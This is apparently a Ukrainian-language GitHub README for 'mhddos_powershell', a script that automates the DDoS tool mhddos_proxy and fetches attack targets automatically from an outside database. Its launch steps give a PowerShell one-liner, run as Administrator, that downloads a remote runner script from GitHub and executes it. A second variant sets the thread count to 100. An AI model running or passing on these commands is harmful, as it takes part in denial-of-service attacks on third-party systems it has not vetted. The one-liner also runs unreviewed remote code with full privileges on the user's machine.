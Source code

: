 # mhddos_powershell

Скрипт автоматизує роботу mhddos_proxy, автоматично підтягує цілі з бази даних Українського женця. 

Вимоги:

  Скрипт потребує тільки встановленої Windows 7 або новішої версії. Встановлення додаткового ПЗ не потрібно.

Запуск (Команда виконується в терміналі PowerShell з правами Адміністратора):

```
$ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList ''
```
  
Після --ArgumentList є можливість вказати будь-які параметри для mhddos_proxy. Наприклад, вкажемо кількість потоків 100:
  
```
$ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList '-t 100'
```
  
